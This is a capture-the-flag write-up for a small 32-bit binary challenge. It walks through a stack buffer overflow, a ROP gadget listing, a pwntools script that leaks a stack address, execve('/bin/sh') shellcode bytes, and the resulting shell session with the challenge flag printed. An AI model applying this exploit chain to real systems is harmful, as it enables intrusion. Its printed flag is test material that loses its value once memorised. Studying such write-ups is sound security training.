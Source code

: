 # Start Write-up
Alright so my first steps were to download the binary and open it up in ghidra. Opening it up in ghidra yielded nothing because the program was a super basic opcodes. With no libraries. This made it really hard for ghidra to figure out what the functions were really doing. This meant I would have to open it up in GDB to see what was happening in the dissassembly.

I first ran the program to see what it did. All it did was send a 20-byte message:
`Let's start the CTF:`
then it gave a prompt. It seemed like anything you sent in the prompt would exit the program.

I opened the binary in GDB to find exactly that. Looking at the functions I found "\_start" was where all the magic happened. It was very crude instructions in 32-bit. It looked a little bit like this:

![[Pasted image 20220113144304.png]]

I was interested in this part:
```
xor	ebx,ebx
mov	dl,0x3c
mov	al,0x3
int 0x80
```
This essentially called `read(0, ???, 0x3c)`
The ??? was confusing, but then I read up above `mov ecx,esp` which meant that ecx was representing the stack, so it would be `read(0, stack, 0x3c)`
This meant there was an easy buffer overflow, but not as easy as I originally imagined. Essentially the stack looked like this:
```
0xffffbf04 ◂— 0x2774654c ("Let'")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
So when the program ran it would overwrite the stack with your input up to `0x3c` bytes. So if you typed `blah` the stack would look like:
```
0xffffbf04 ◂— 0x68616c62 ("blah")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
This means that you would have to type 20 characters before you hit the return address.
`0x3c` = 60 so you have 60-20 = 40 bytes of buffer overflow. Thats a good amount. I ended up looking at the ROPgadgets to see what I could do to change the control flow of the program:
`$ ROPgadget --binary ./start` 
```
0x0804809b : adc al, 0xc3 ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804808e : add al, 0xcd ; xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048099 : add esp, 0x14 ; ret 
0x08048086 : daa ; mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 0x080480a0 : inc eax ; int 0x80 
0x0804808f : int 0x80 
0x0804809a : les edx, ptr [ebx + eax*8] ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x08048095 : mov al, 3 ; int 0x80 
0x0804808d : mov al, 4 ; int 0x80 
0x0804808b : mov bl, 1 ; mov al, 4 ; int 0x80 
0x08048089 : mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x08048093 : mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 
0x0804809d : pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804809c : ret 
0x08048090 : xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x0804809e : xor eax, eax ; inc eax ; int 0x80 
0x08048091 : xor ebx, ebx ; mov dl, 0x3c ; mov al, 3 ; int 0x80
```
Seeing this I realized my options were limited, but I decided to start trying things out. The first gadget I tried was: `0x080480a0 : inc eax ; int 0x80` since I knew it would change the function that gets called. What I got was `0x18 + 1` for my eax value which corresponded to the `stime` syscall. After trying different inputs I found that eax was being saved from the `read` function which would return the size of the input. Which was `0x18`. When I increased the size of the input, I could get different syscall codes untill I reached `0x3c`(the max read size). Looking at my options for possible syscalls led to nothing. So that idea was scrapped.

The next idea I had was to use shellcode in my input to run some code (maybe pop a shell). Looking at `vmmap` I realized that might be possible since the stack was executable. The addresses of the stack were randomized though, so I had to find a way to leak the stack. Looking at the ROPgadgets I saw this function:
`0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80`
Essentially this would print out 20 bytes from the stack. since we had already moved the stack pointer past the string that it gives, it would run: `write(1, stack, 0x14)` this is what my program looked like:
```python
#! /usr/bin/env python 
from pwn import * 
context.terminal = ['tmux', 'splitw', '-h']  
addr_ecx2 = 0x08048087
p = process("./start") 
gdb.attach(p, 'b _start') 
p.recv()
payload = b"A"*(0x14) 
payload += p32(addr_ecx2) 
p.send(payload) 
x = p.recv() 
print(hex(u32(x[0:4]))) 
print(hex(u32(x[4:8]))) 
print(hex(u32(x[8:12]))) 
p.interactive()
```
I was able to leak 3 addresses with one of them in the same page as the stack:(`x[0:4]`)
This was some really good news. It meant I could run shellcode directly. So I created a new program that would send Shellcode in my input and then send the program to that spot in the stack. This would be the control flow:
`_start` -> enter `"A"*0x14 + 0x08048087` -> `_start+39` = `0x08048087` -> read stack address -> enter `shellcode + stack address` -> `stack address`
The program I wrote did exactly that. My shellcode looked like this:
`"j\x0bXhn/shh//bi1\xc9\x99T[\xcd\x80"`
And it didn't work.

Why? The shellcode I thought was too long. I thought the shellcode was somehow breaking after like 10 characters. I spent an insane amount of time trying to get the shellcode to be small enough to fit into the space.
Then I looked really hard at what was happening. The instructions from my shellcode looked like this:
```
push $SYS_execve 
pop %eax
push $0
push $0x68732f6e 
push $0x69622f2f
xor %ecx, %ecx 
cltd 
push %esp 
pop %ebx 
int $0x80
```
I noticed that when the program got to `push $0x69622f2f` it would overwrite the rest of the shellcode. OF COURSE!!! The shellcode was on the stack and pushing values onto the stack would overwrite those values. 

All I had to do to solve it was place the shellcode at the end of my input so it would overwrite useless parts of the stack and boom! it worked:
```
$ ls
bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
$ cd home
$ cd start
$ ls
flag
run.sh
start
$ cat flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```
The final expoit script is in this repo.